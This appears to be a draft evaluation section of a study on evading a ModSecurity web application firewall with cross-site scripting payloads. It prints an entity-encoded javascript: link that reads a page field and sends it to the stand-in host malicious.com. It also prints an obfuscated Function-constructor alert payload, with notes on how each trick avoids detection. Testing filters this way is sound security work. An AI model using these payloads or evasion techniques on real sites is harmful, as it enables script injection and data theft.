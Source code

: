 \section{Evaluation Results}
\label{sec:EvaluationResults}
Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}[style=basicStyle]
<a href=j&#97v&#97script&#x3A;
var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
var&#32data&#32=&#32&#123body:secret,method:'POST'\};
fetch`https:\//malicious.com:3001/api/ping?secret=querysecret$&#123data\}`>ClickMeFor$</a>
\end{lstlisting}

\begin{itemize}
	\item Using function constructor to evade eval() detection
	\item supplying the argument via tagged template literal to avoid () characters
	\item the 'a' in front of the template in the template string to avoid an error that is thrown if the first parameter in a multi parameter call to the function constructor is not a valid javascript parameter
	\item using string replace to avoid supplying the full sequence of 'alert' and to replace () characters
\end{itemize}

theoretically a payload without () is possible like this but it turns out that passing a template literal string with \verb|${...}| syntax is being flagged as unix command injection

\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}


tried to encode the  payload:
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}
with unicode and html, even the weird unicode. but the modsecurity waf decodes both and blocks TODO

